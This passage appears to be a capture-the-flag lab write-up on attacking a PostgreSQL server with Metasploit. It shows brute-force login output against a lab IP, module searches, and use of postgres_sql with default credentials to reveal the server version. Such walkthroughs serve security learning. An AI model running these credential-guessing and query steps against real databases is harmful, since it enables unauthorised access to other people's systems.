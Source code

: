 ```bash
[-] 10.10.51.200:5432 - LOGIN FAILED: admin:@template1 (Incorrect: Invalid username or password)
[-] 10.10.51.200:5432 - LOGIN FAILED: admin:tiger@template1 (Incorrect: Invalid username or password)
[-] 10.10.51.200:5432 - LOGIN FAILED: admin:postgres@template1 (Incorrect: Invalid username or password)
[-] 10.10.51.200:5432 - LOGIN FAILED: admin:password@template1 (Incorrect: Invalid username or password)
[-] 10.10.51.200:5432 - LOGIN FAILED: admin:admin@template1 (Incorrect: Invalid username or password)
[-] 10.10.51.200:5432 - LOGIN FAILED: admin:admin@template1 (Incorrect: Invalid username or password)
[-] 10.10.51.200:5432 - LOGIN FAILED: admin:password@template1 (Incorrect: Invalid username or password)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
# What is the full path of the module that allows you to execute commands with the proper user credentials (starting with auxiliary)?
- search  for postgres
- #11 auxiliary/admin/postgres/postgres_sql
- This module will reveal the postgresql rdbms version installed
```bash
msf6 auxiliary(scanner/postgres/postgres_login) > search postgres

Matching Modules
================
   #   Name                                                        Disclosure Date  Rank       Check  Description
   -   ----                                                        ---------------  ----       -----  -----------
   0   auxiliary/server/capture/postgresql                                          normal     No     Authentication Capture: PostgreSQL
   11  auxiliary/admin/postgres/postgres_sql                                        normal     No     PostgreSQL Server Generic Query
```
 - use 11, options, set required fields user name and password
```bash
sf6 auxiliary(scanner/postgres/postgres_login) > use 11
msf6 auxiliary(admin/postgres/postgres_sql) > options

Module options (auxiliary/admin/postgres/postgres_sql):

   Name           Current Setting   Required  Description
   ----           ---------------   --------  -----------
   DATABASE       template1         yes       The database to authenticate against
   PASSWORD       postgres          no        The password for the specified username. Leave blank for a random password.
   RETURN_ROWSET  true              no        Set to true to see query result sets
   RHOSTS         10.10.51.200      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          5432              yes       The target port
   SQL            select version()  no        The SQL query to execute
   USERNAME       postgres          yes       The username to authenticate as
   VERBOSE        false             no        Enable verbose output
msf6 auxiliary(admin/postgres/postgres_sql) > set username postgres
username => postgres
msf6 auxiliary(admin/postgres/postgres_sql) > set password password
password => password
```
- exploit 
- reveals PostgreSQL 9.5.21 version
